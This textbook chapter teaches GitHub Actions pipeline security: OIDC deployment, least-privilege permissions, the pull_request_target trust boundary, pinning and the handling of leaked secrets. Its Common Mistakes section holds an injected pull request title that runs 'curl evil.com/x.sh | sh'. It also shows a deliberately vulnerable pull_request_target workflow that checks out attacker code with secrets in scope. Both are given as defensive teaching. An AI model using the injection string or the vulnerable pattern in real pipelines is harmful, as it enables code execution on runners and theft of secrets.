

# GitHub Actions and Pipeline Security {#ch-github-actions}

> Write a workflow that tests, builds and deploys, holds no long-lived credentials, and cannot be hijacked by a pull request.

**In this chapter:** workflows, jobs and steps · OIDC instead of stored keys · least-privilege `permissions` · the pull request trust boundary · pinning, lockfiles and provenance

## 💡 The Core Idea

A workflow is a set of jobs, and **every job gets a clean machine**. Jobs run in parallel unless you
declare a dependency. Nothing on disk survives between them, so files move as artefacts or caches.
Design the job graph first and the YAML mostly writes itself.

The second fact is about power. The pipeline holds more privilege than any single developer: the
source, the cloud credentials, and push access to the registry. A compromised laptop affects one
engineer. A compromised pipeline signs the attacker's code for them. So reduce what the pipeline
holds, pin what it consumes, and record what it did.

> ⚠️ **Moving target:** action major versions move roughly yearly — `actions/checkout` is on v6 and
> `actions/setup-node` on v7 as of 2026. Provenance formats and SLSA levels are still settling too.
> The durable principle: a tag is mutable and a commit SHA or digest is not. Pin by SHA.

## How It Works



**A workflow fans out into jobs; `needs:` is what turns parallel jobs back into a sequence.**

**A complete CI workflow:**

```yaml
name: CI

on:
  pull_request: { branches: [main] }
  push: { branches: [main] }

# Cancel superseded runs on the same branch — saves runner minutes
concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: true

permissions:
  contents: read # least privilege by default; widen per job

jobs:
  test:
    runs-on: ubuntu-latest
    strategy:
      fail-fast: false
      matrix:
        node: [22, 24] # Maintenance and Active LTS
        shard: [1, 2] # split the suite across runners
    steps:
      - uses: actions/checkout@v6
      - uses: actions/setup-node@v7
        with:
          node-version: ${{ matrix.node }}
          cache: npm # built-in dependency caching
      - run: npm ci
      - run: npm run lint && npm run type-check
      - run: npm test -- --shard=${{ matrix.shard }}/2 --coverage

  build:
    needs: test # only runs if every matrix leg passed
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6
      - uses: docker/setup-buildx-action@v3
      - uses: docker/build-push-action@v6
        with:
          push: false
          tags: api:${{ github.sha }}
          cache-from: type=gha # layer cache backed by Actions cache
          cache-to: type=gha,mode=max
```

`concurrency` stops you paying for outdated commits. `fail-fast: false` stops one failing matrix leg
hiding the others. `cache: npm` takes the install from minutes to seconds.

For integration tests, start a real database as a `services:` container rather than mocking it. Give
it a `--health-cmd`, or the job races the container and fails about one run in ten.

The attack paths into a pipeline are few and well known. That is what makes them answerable:

| Path in | What it gets | The control |
| ------- | ------------ | ----------- |
| A stored long-lived cloud key | Everything that role can do, until rotated | OIDC federation |
| A third-party action on a mutable tag | Arbitrary code in your job | Pin to a commit SHA |
| A dependency or base image on a mutable tag | Arbitrary code in your artefact | Lockfile, digest pinning |
| A fork pull request with secrets in scope | Your secrets, from an anonymous contributor | `pull_request`, not `pull_request_target` |
| Untrusted event text in a `run:` block | Shell execution on the runner | Pass it through `env:` |

## When to Use It

| Scenario | Choice | Reason |
| -------- | ------ | ------ |
| Move a build bundle to the deploy job | Artefact | A miss must fail the job, not slow it |
| Avoid re-downloading dependencies | Cache keyed on `hashFiles()` of the lockfile | A miss only costs time |
| The same build-and-deploy across fifty repos | Reusable workflow | Whole jobs, own runner, `secrets: inherit` |
| A repeated step group, such as Node setup | Composite action | Runs inside the caller's job |
| Run tests on a contributor's fork | `pull_request` | Runs without secrets by design |
| Label or comment on a fork's pull request | `pull_request_target` | Metadata only, never check out the head |
| Deploy to a cloud account | OIDC plus an `environment` | No stored key, and a human gate |

## Deploying with OIDC — No Static Keys

❌ Long-lived IAM keys stored as repository secrets never rotate, and anyone who reads them can use them.

✅ **OIDC federation — credentials that expire in an hour:**

```yaml
deploy:
  runs-on: ubuntu-latest
  environment: production # gated by required reviewers
  permissions:
    id-token: write # required to request the OIDC JWT
    contents: read
  steps:
    - uses: actions/checkout@v6
    - uses: aws-actions/configure-aws-credentials@<full-commit-sha>
      with:
        role-to-assume: arn:aws:iam::123456789:role/github-deploy
        role-session-name: gha-${{ github.run_id }}
        aws-region: eu-west-1
    - run: |
        docker build -t $ECR/api:${{ github.sha }} .
        docker push $ECR/api:${{ github.sha }}
```

The job asks GitHub for a signed JWT. Its claims name the repository, ref and environment. The cloud
checks them against a trust policy and returns temporary credentials. Nothing is stored, so nothing
needs rotating. Naming the session after the run makes every cloud call traceable to one workflow.

**The trust policy is where the security actually lives** — the YAML just asks:

```json
{
  "Condition": {
    "StringEquals": {
      "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
      "token.actions.githubusercontent.com:sub": "repo:acme/api:environment:production"
    }
  }
}
```

> ⚠️ **The most common OIDC mistake is a loose `sub` condition.** `repo:acme/*` lets any repository
> in the organisation assume the production role — including a new one an attacker creates. Pin the
> repository, and pin the environment or branch as well.

The `environment` on the job adds rules that live in repository settings, not in the YAML: required
reviewers, a wait timer, and a branch restriction so only `main` may deploy. For non-cloud secrets,
such as third-party API keys, fetch them from a secrets manager at runtime with the same OIDC identity.

## Least-Privilege Permissions

The default `GITHUB_TOKEN` can do more than most jobs need. The CI workflow above sets
`contents: read` as the workflow default. Only the deploy job widens it, adding `id-token: write` so
that it alone can assume the cloud role. Keep build and deploy as separate jobs, so a build compromise
does not grant deploy.

## The Pull Request Trust Boundary

`pull_request` runs fork code **without** secrets. `pull_request_target` runs in the base repository's
context **with** them, and with a writable token.

❌ **A well-known exploit pattern:**

```yaml
on: pull_request_target # runs with repository secrets
jobs:
  build:
    steps:
      - uses: actions/checkout@v6
        with:
          ref: ${{ github.event.pull_request.head.sha }} # the attacker's code
      - run: npm ci && npm run build # arbitrary code, full secret access
```

An install script alone is enough. The attacker never needs the build to succeed. The same boundary is
why a self-hosted runner must never serve a public repository: any fork runs code on your machine.

## Supply Chain: Pinning, Lockfiles and Provenance

| Risk | Mitigation |
| ---- | ---------- |
| A malicious package version | `npm ci` against a committed lockfile |
| A repointed action tag | Pin third-party actions to a **full commit SHA** |
| A mutable base image | Pin by digest — `@sha256:…` |
| A typosquatted package | Allowlist registries, proxy through an internal one |

The npm and CI marketplace attacks through 2025 worked because most consumers used mutable tags.
First-party `actions/*` on a major tag is the accepted trade-off; nothing else.

Scan dependencies (Dependabot), code (CodeQL) and the built image (Trivy). Fail only on high and
critical, or the team learns to skip the gate. An **SBOM** lists everything inside the artefact, so
*"are we affected by this CVE?"* becomes a query. Sign the artefact with `cosign` or build provenance
attestations, and verify the signature at deploy time — a signature nobody checks is only metadata.

The same build and deploy jobs are where release configuration ships, such as the security headers a
frontend sets. So those headers get the same review and pinning as the code.

## What a Leaked Token Does

A leaked cloud key gives the attacker everything its role can do, until someone rotates it. A leaked
`GITHUB_TOKEN` with write scope can push code or change a release. Stop secrets reaching the
repository in layers: a pre-commit hook, push protection at the remote, and a CI scan of full history
(`fetch-depth: 0`, or it sees only the latest commit).

> ⚠️ **A leaked secret is compromised the moment it is pushed**, even if you force-push it away.
> Forks, clones and CI caches keep copies. Rotate it first, then clean the history — in that order.

## Common Mistakes

❌ **Interpolating event data into a `run` block.** A pull request title of `"; curl evil.com/x.sh | sh`
executes on the runner, because `${{ }}` substitutes before the shell sees the line.
✅ Pass it through `env:` so the shell treats it as data:

```yaml
- env:
    TITLE: ${{ github.event.pull_request.title }}
  run: echo "Title: $TITLE"
```

❌ **Pinning third-party actions to a tag.** Whoever owns the action can repoint `@v2` at new code.
✅ Pin to a full commit SHA, as in `some-org/deploy-action@a1b2c3d4…`.

❌ **Deleting the commit that leaked a token and calling it fixed.** Copies already exist.
✅ Rotate first. Treat history rewriting as tidying, not as remediation.

❌ **A cache key that never changes.** An entry is immutable once written, so it never updates.
✅ Key on `hashFiles('**/package-lock.json')`, with `restore-keys` as a prefix fallback.

## 🔑 Key Takeaways

- Every job gets a clean runner, so use artefacts to move files and caches to avoid re-downloading them.
- Declare `permissions:` explicitly, starting from `contents: read`, and widen only on the job that needs it.
- Replace stored cloud keys with OIDC, and pin the trust policy's `sub` to one repository and environment.
- Pin third-party actions to commit SHAs and base images to digests, because mutable tags are the supply chain hole.
- `pull_request_target` plus a checkout of the head commit hands your secrets to an anonymous contributor.

## Interview Questions

**Q: How do you authenticate a workflow to a cloud provider without storing credentials?**

Use OIDC federation. Register GitHub's issuer in the cloud account, and create a role whose trust
policy pins the `sub` claim to one repository and one environment. The workflow grants
`id-token: write` and swaps the JWT for credentials that expire in about an hour. The trust policy,
not the YAML, decides who can deploy where.

**Q: What is the risk of `pull_request_target`, and when would you use it?**

It runs in the base repository's context, with secrets and a writable token, while the code may come
from an untrusted fork. If it checks out the head commit and runs any install or build step, the
contributor's code runs with your secrets. Use `pull_request` for contributor code, and keep
`pull_request_target` for metadata jobs such as labelling.

**Q: What is the difference between a reusable workflow and a composite action?**

A reusable workflow is called at job level, defines whole jobs, runs on its own runner and can take
`secrets: inherit`. A composite action is called at step level and runs inside the caller's job.
Use composite actions for repeated step groups, and reusable workflows to standardise a whole
pipeline across many repositories.

**Q: When would you use a self-hosted runner, and what does it cost you?**

When the job needs what a hosted runner cannot give: private network access, special hardware, or a
very large cache. The cost is a machine inside your pipeline's trust boundary. It must be ephemeral,
never serve a public repository, and get production-grade patching. For most teams a hosted runner
plus a service container is the better answer.

**Q: A token leaks from your pipeline. What do you do, and what do you need in place?**

Rotate it first, because it was compromised the moment it was pushed; rewriting history is tidying.
Then use the cloud audit log to see what the identity did, which only works if role sessions carry
the run ID. Images tagged with the commit SHA and immutable registry tags prove what actually ran.

## What to Read Next

- [Chapter ?? — Deployment Strategies, Rollback and Feature Flags](#ch-deployment-strategies) — what the deploy job should do with the image
- [Chapter ?? — Container Images: Building and Hardening](#ch-docker-fundamentals) — digest pinning, build secrets and why the build cache and the shipped layers are the same thing
- [Chapter ?? — Git Fundamentals and Recovery](#ch-git-fundamentals) — removing a secret from history, once it has been rotated
